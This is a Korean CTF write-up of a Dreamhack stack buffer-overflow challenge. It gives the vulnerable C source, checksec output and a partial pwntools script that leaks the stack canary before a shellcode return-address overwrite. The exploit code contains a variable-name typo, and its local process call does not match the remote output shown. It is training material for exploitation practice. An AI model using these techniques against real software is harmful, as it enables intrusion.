 # 문제 분석

파일을 다운받고 실행을 해보면

```bash
     ~/from_arch/Return2Shellcode ▓▒░         ░▒▓ max@pwnmax  08:23:35   
❯ ./r2s
Address of the buf: 0x7ffee79e2010
Distance between buf and $rbp: 96
[1] Leak the canary
Input: hi!
Your input is 'hi!
'
[2] Overwrite the return address
Input: ???
```

와 같이 인풋과 덮어쓸 반환주소값을 묻고있다.
저 부분에 적절한 값을 넣어야 플래그를 획득할 수 있을 것.

```C
// Name: r2s.c
// Compile: gcc -o r2s r2s.c -zexecstack

#include <stdio.h>
#include <unistd.h>

void init() {
  setvbuf(stdin, 0, 2, 0);
  setvbuf(stdout, 0, 2, 0);
}

int main() {
  char buf[0x50];

  init();

  printf("Address of the buf: %p\n", buf);
  printf("Distance between buf and $rbp: %ld\n",
         (char*)__builtin_frame_address(0) - buf);

  printf("[1] Leak the canary\n");
  printf("Input: ");
  fflush(stdout);

  read(0, buf, 0x100);
  printf("Your input is '%s'\n", buf);

  puts("[2] Overwrite the return address");
  printf("Input: ");
  fflush(stdout);
  gets(buf);

  return 0;
}
```
소스 코드는 위와 같다.

## 보호 기법 탐지하기

```bash
❯ checksec ./r2s
[*] '/home/max/from_arch/Return2Shellcode/r2s'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        PIE enabled
    Stack:      Executable
    RWX:        Has RWX segments
    Stripped:   No

```

checksec을 이용하면 위와 같이 보호 기법들을 탐지할 수 있다.
스택 카나리가 사용된 것을 확인할 수 있다.

---

# 익스플로잇 방법

## 카나리 우회
위에서 문제에 카나리가 사용되었음을 알아내었다.
따라서 우선 카나리를 우회해주어야한다. buf를 문자열로 출력해주는 부분이 있으므로 여기에 적절한 오버플로우를 발생시키면 카나리 값을 구할 수 있을 것.

## 셸 획득
어떤 워게임은 ```get_shell()```주솟값이 있으면 해당 주소 리턴으로 ~~딸깍~~이 가능하다. 그치만 여기엔 없다.

### 쉘코드
```python
from pwn import *

def slog(n, m): return success(': '.join([n, hex(m)]))

p = process('./r2s')

context.arch = 'amd64'

# [1] Get information about buf
p.recvuntil(b'buf: ')
buf = int(p.recvline()[:-1], 16)
slog('Address of buf', buf)

p.recvuntil(b'$rbp: ')
buf2sfp = int(p.recvline().split()[0])
buf2cnry = buf2sfp - 8
slog('buf <=> sfp', buf2sfp)
slog('buf <=> canary', buf2cnry)
```
실행 시

```bash
python3 r2s.py
[▅] Opening connection to host3.dreamhack.games on port 11058: Trying 23.81.42[+] Opening connection to host3.dreamhack.games on port 11058: Done
[+] Address of buf: 0x7fff350225e0
[+] buf <=> sfp: 0x60
[+] buf <=> canary: 0x58
[*] Closed connection to host3.dreamhack.games port 11058
```

와 같이 나왔다.
저렇게 출력된 0x58은 카나리까지의 buf의 크기. x64니까 0x8만큼의 카나리가 있을 것이다.
카나리를 구하는 건

```python
payload = b'A'*(buf2cnry + 1)
p.sendafter(b'Input:', paylad)
p.recvuntil(payload)
cnry = u64(b'\x00' + p.recvn(7))
slog("Canary", cnry)

# Canary: 0x475c12afe7478e00
```
카나리에 대한 정보도 구했다!

이후에 카나리 릭을 통해 익스플로잇하면

```bash
[+] Canary: 0x86f389d5b5547100
[*] Switching to interactive mode
 $ ls
flag
r2s
$ file flag
$ cat flag
```
하면 바로 플래그가 나온다.
